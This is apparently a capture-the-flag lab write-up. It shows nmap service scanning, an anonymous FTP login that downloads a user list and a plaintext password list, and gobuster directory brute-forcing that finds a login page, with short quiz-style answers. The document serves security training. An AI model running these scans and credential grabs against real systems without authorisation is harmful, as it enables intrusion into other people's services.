


└─$ nmap 10.129.138.166 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 22:01 CEST
Nmap scan report for 10.129.138.166
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.10.16.142
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r-- 1 ftp ftp 33 Jun 08 2021 allowed.userlist
|_-rw-r--r-- 1 ftp ftp 62 Apr 20 2021 allowed.userlist.passwd
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1540.91 seconds
Service verison running on port 21 : vsFTPd 3.0.3
FTP code for "Anonymous FTP login allowed" : 230
Username used to login anonymously to FTP server: anonymous
Command to download files on FTP server: get
Apache HTTP Server running on target host: Apache httpd 2.4.41
└─$ ftp 10.129.138.166
Connected to 10.129.138.166.
220 (vsFTPd 3.0.3)
Name (10.129.138.166:bitchae): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43116|)
150 Here comes the directory listing.
-rw-r--r-- 1 ftp ftp 33 Jun 08 2021 allowed.userlist
-rw-r--r-- 1 ftp ftp 62 Apr 20 2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47166|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |**************************************************************************************************************| 33 0.50 KiB/s 00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.20 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||46541|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |**************************************************************************************************************| 62 0.93 KiB/s 00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.38 KiB/s)
Contents of allowed.userlist
aron pwnmeow egotisticalsw admin
Contents of allowed.userlist.passwd
root Supersecretpassword1 @BaASD&9032123sADS rKXM59ESxesUFHAd
└─$ gobuster dir -u 10.129.198.157 -w /usr/share/dirb/wordlists/common.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.129.198.157
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Extensions: php
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php (Status: 403) [Size: 279]
/.hta (Status: 403) [Size: 279]
/.hta.php (Status: 403) [Size: 279]
/.htaccess (Status: 403) [Size: 279]
/.htaccess.php (Status: 403) [Size: 279]
/.htpasswd (Status: 403) [Size: 279]
/.htpasswd.php (Status: 403) [Size: 279]
/assets (Status: 301) [Size: 317] [--> http://10.129.198.157/assets/]
/config.php (Status: 200) [Size: 0]
/css (Status: 301) [Size: 314] [--> http://10.129.198.157/css/]
/dashboard (Status: 301) [Size: 320] [--> http://10.129.198.157/dashboard/]
/fonts (Status: 301) [Size: 316] [--> http://10.129.198.157/fonts/]
/index.html (Status: 200) [Size: 58565]
/js (Status: 301) [Size: 313] [--> http://10.129.198.157/js/]
/login.php (Status: 200) [Size: 1577]
/logout.php (Status: 302) [Size: 0] [--> login.php]
/server-status (Status: 403) [Size: 279]
Progress: 8713 / 9230 (94.40%)[ERROR] Get "http://10.129.198.157/wap.php": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Gobuster: command line tool used to brute-force URIs (directories, files, DNS subdomains) in websites
Switch to search for specific filetype : -x
PHP file found for authentifaction to web service: login.php
 